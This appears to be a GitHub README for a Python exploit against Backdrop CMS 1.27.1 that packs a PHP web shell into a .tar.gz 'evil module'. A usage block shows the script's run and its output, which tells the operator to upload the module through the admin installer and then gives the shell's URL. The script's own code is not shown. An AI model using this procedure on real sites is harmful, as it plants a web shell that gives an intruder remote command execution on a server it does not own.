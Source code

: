 # Backdrop CMS 1.27.1 - Authenticated Remote Command Execution RCE
The exploit creates .tar.gz file with PHP web shell inside.

The script is modification from original script developed by Ahmet Ümit BAYRAM. 

## Usage
```
python3 ./exploit.py http://vulnerable.com
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.tar.gz
Go to http://vulnerable.com/admin/modules/install and upload the shell.tar.gz for Manual Installation.
Your shell address: http://vulnerable.com/modules/shell/shell.php
```
